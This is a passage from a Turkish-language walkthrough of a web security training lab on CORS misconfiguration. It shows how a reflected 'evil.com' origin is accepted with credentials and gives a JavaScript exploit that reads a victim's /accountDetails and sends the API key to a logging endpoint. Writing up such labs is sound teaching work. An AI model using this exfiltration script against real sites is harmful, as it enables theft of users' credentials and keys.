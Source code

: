 ```
/accountDetails için yanıtımıza baktığımızda;

<img src="https://1.bp.blogspot.com/-R-ytiBaALjc/XywAJkcNCMI/AAAAAAAAAd4/n47fQ5KOgOIvN0js5jjRTIVRF9NYwp2CACNcBGAsYHQ/s860/cors3.png" height="523" width="860">

Burada key’in ajax isteği ile alındığını farkettik. CORS’yi destekleyen Access-Control-Allow-Credential başlığını görüyoruz.
İsteğimizi repater kısmına gönderip ```Origin: https://evil.com``` başlığını ekleyerek gönderelim ve yanıtımıza bakalım;

<img src="https://1.bp.blogspot.com/-2y4EufpiBYo/XywAJmiWlVI/AAAAAAAAAd8/9oOfp8bQFccZs_7ET0TjmQMU4ZbOgrG8QCNcBGAsYHQ/s1228/cors4.png" height="420" width="1050">

Yanıtımızı inceledğimizde ```Access-Control-Allow-Origin:``` başlığına yansıtıldığını görüyoruz.

Şimdi Exploit server’ıma göz atalım;

<img src="https://1.bp.blogspot.com/-YxIb4VDfMdQ/XywAKN0nvOI/AAAAAAAAAeE/UzL6059X8y4Lp89uyLhzl5XNkzC4KxNFACNcBGAsYHQ/s908/cors5.png" height="520" width="800">

```
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>

```

Burada $url kısmına çalıştığımız lab URL’ini giriyoruz;

<img src="https://1.bp.blogspot.com/-Fb8QClrE9Ds/XywAKVv_f7I/AAAAAAAAAeI/ixDtxRuLJywacWJFnrKnNeBD15Gwh7s2QCNcBGAsYHQ/s817/cors6.png" height="480" width="860">

daha sonra View Exploit diyerek çalışıp çalışmadığını görelim ;

<img src="https://1.bp.blogspot.com/-zP0esQGMV88/XywIxMORv3I/AAAAAAAAAes/dkaKqCnFHesUObreZWo66ej9pWL0Nl03ACNcBGAsYHQ/s1552/cors102.png" height="300" width="1200">

evet başarılı şekilde çalış ve loglar ekrana geldi.

Şimdi Access Log'lara bakalım ve kurbanın API Key'ini alıp Lab'ı bitirelim.

<img src="https://1.bp.blogspot.com/-63WMMrQ5FQ4/XywAKqrbnnI/AAAAAAAAAeQ/7tyBiWda10MP5OzVb8rps5wKZlp48tR5gCNcBGAsYHQ/s1532/cors8.png" height="523" width="1200">

<img src="https://1.bp.blogspot.com/-X-h1roEC6SE/XywAK-2OnLI/AAAAAAAAAeU/CM0Dj9eLLNkBBO2RUCdVXl4Wh1-QgOTpQCNcBGAsYHQ/s1091/cors9.png" height="450" width="1200">

<img src="https://1.bp.blogspot.com/-BuGBh4CuGeo/XywAJsM6X6I/AAAAAAAAAeA/kYbZ_WTKkqEwnWda8jKQm1rglcJphe4kwCNcBGAsYHQ/s1140/cors10.png" height="470" width="1200">

<br><br><br><br>
<h3 style="color:yellow;">Lab: CORS Vulnerability With Trusted Null Origin</h3>


